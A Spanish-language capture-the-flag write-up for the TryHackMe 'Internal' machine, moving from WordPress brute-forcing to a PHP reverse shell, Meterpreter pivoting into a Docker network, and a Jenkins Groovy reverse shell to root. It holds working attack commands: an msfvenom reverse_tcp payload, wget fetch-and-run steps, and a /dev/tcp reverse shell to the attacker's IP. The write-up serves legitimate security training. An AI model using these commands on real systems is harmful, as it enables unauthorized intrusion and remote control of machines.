# Internal

**Platform:** TryHackMe  
**Difficulty:** Hard  
**IP:** 10.10.158.248

---

## 1. Información Inicial
- **Objetivo:** Obtener las dos banderas tanto del usuario como de root.  
- **Herramientas iniciales:** `nmap`, `gobuster`, `wpscan`, `hydra`, `reverse shell`, `netcat`, `msfvenom`, `metasploit`, `ssh`.

---

## 2. Reconocimiento y enumeración

Primero realizamos un escaneo básico con `nmap` para identificar los servicios abiertos:
```bash 
nmap -sC -sV --min-rate 5000 -p- 10.10.158.248
```


Tan solo nos muestra el puerto 22 y 80, y ya que no tenemos ninguna credencial para SSH vamos a entrar al sitio web.



Tras inspeccionar el sitio web y no encontrar ningún vector de ataque, vamos a realizar una búsqueda de directorios públicos a partir del sitio web con la herramienta `gobuster`.



```bash 
gobuster dir -u 10.10.158.248 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Entre los directorios que hemos encontrado no hay nada particular, un PHPMyAdmin para el que no tenemos credenciales y poco más.
Sin embargo, la tenemos una ruta que indica que hay un Wordpress detrás del sitio y podemos tratar de analizarlo con la herramienta `WPScan`.

Utilizaremos el parámetro -e para búsqueda de usuarios, plugins vulnerables, temas vulnerables, backups, ficheros de configuración, etc.

```bash 
wpscan --url http://10.10.158.248/blog/ -e
```



Hemos descubierto el usuario `admin`, desde el que podemos partir para hacer un ataque de fuerza bruta al panel de inicio de sesión de Wordpress.
Este ataque puede realizarse con Hydra o con WPScan, pero usaremos la segunda ya que la sintaxis es mucho más simple.

```bash 
wpscan --url http://10.10.158.248/blog/ -U admin -P /usr/share/wordlists/rockyou.txt
```


Cuando finaliza el programa, observamos que hay una exclamación roja donde nos indica la contraseña del usuario admin. Utilizaremos estas credenciales para acceder al panel de administración de WordPress.



Como estamos acostumbrados en este tipo de máqunias, WordPress suele tener ficheros PHP para modificar en Appearance  > Themes Editor.
En cualquiera de los ficheros PHP al que podamos acceder desde la URL vamos a eliminar el contenido y a modificar el código de la clásica php-reverse-shell.php de pentestmonkey con nuestra dirección IP.






De esta manera obtendremos una conexión en netcat donde estableceremos una shell. Para ello también tenemos que poner a la escucha netcat en nuestra máquina local.

```bash 
nc -lvnp 1234
```

Para establecer la conexión solo nos queda acceder al fichero a través de la URL para que se ejecute.



Tras investigar el sistema de la máquina víctima y no encontrar nada a simple vista, vamos a utilizar la herramienta `linpeas`, para buscar algún fichero que nos aporte alguna credencial, ya que no podemos acceder a ningún directorio personal.

En la máqunia local abrimos el servidor para compartir el fichero:
```bash 
python -m http.server 
```

En la máquina víctima lo descargamos, le asignamos permisos de ejecución y lo ejecutamos:
```bash 
wget http://10.8.29.132:8000/linpeas.sh
chmod a+x linpeas.sh
./linpeas.sh
```







Tras un buen rato observando el resultado de la herramienta linpeas.sh, encontramos algunas vulnerabilidades que podrían ser explotadas pero no aparentan seguir el flujo de la máquina, así que seguimos revisando hasta encontrar un fichero de guardado de WordPress en el directorio /opt.



Al no tener mucho sentido ese fichero en esa localización, lo abrimos y descubrimos que contiene las credenciales de otro usuario.



Accedemos al usuario aubreanna y nos dirigimos a su directorio personal, donde hayamos la primera bandera (user.txt).
Además de la bandera, hay otro fichero llamado jenkins.txt que nos dice que en el puerto 8000 de la 172.17.0.2 está corriendo un servicio Jenkins.



Si hacemos un `ifconfig` apreciamos una segunda interfaz de red de docker, que pertenece a otra red en la que parece ocultarse ese servicio.



Hay muchas maneras de poder acceder a esa red, y aunque no sea la más rápida (ya que podemos establecer un túnel por SSH) vamos a usar el método que aprendemos en la eJPTv2.

Utilizaremos una shell de meterpreter para realizar el pivoting. Para ello crearemos un fichero malicioso con MSFVenom que realice una conexión a meterpreter (que estará a la escucha en nuestra máquina local). 

```bash 
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.8.29.132 LPORT=4444 -f elf -e x64/xor -i 5 -o shell64.elf
```



Lo siguiente es usar exploit/multi/handler de metasploit y asignarle el LHOST y el LPORT:

```bash 
use exploit/multi/handler
set LPORT 4444
set LHOST 10.8.29.132
run
```



Por último descargamos con wget el fichero en la máquina víctima, establecemos permisos de conexión y lo ejecutamos.
```bash 
wget http://10.8.29.132:8000/shell64.elf
chmod a+x shell64.elf
./shell64.elf
```



Desde Metasploit ya hemos recibido la conexión entrate y establecido una shell de meterpreter, desde la que ya podemos realizar un ifconfig y vamos a proceder a realizar el pivoting.



Para realizar el `pivoting` primero le indicaremos a meterpreter la dirección de red para que la ingrese en la tabla de rutas, luego haremos uso de esa tabla y realizaremos el Port Forwarding donde el puerto 1234 de nuestra máqunia local creará una conexión túnel con el puerto 8080 de la máqunia con la IP 172.17.0.2.

```bash 
run autoroute -s 172.17.0.0/16
run autoroute -p
portfwd add -l 1234 -p 8080 -r 172.17.0.2
```





Finalmente, si accedemos a través de la URL de nuestro navegador a localhost:1234 recibiremos la respuesta del servicio Jenkins.




> **Nota:** A partir de este punto tuve que cambiar de máquina, pero continué el proceso por donde lo dejé.

Investigando por internet sobre las credenciales por defecto obtuvimos que el usuario por defecto y que en la mayoría de máquinas suele dejarse así es `admin`.
Esta vez vamos a tener que utilizar Hydra para, con un ataque de fuerza bruta, obtener la contraseña del usuario.

```bash 
hydra localhost -f http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in&Login=Login:Invalid username or password" -s 1234 -l admin -P /usr/share/wordlists/rockyou.txt
```



Al ingresar las credenciales entramos dentro del panel de administración de Jenkins.



Tras observar cada opción del servicio, tenemos una herramienta llamada Script Console. 



Se trata de una herramienta capaz de ejecutar código Java, así que si ingresamos un código que se conecte a netcat para generar una shell, tendremos acceso a esta segunda máquina.

```bash 
r = Runtime.getRuntime()
p = r.exec(["/bin/bash", "-c", "exec 5\<>/dev/tcp/10.8.29.132/4444; cat \<&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```



Al acceder a la segunda máquina por netcat, no ha sido necesario volver a utilizar la herramienta linpeas.sh debido a que en el mismo directorio donde teníamos la primera pista, encontramos un fichero de texto con la contraseña del usuario root.

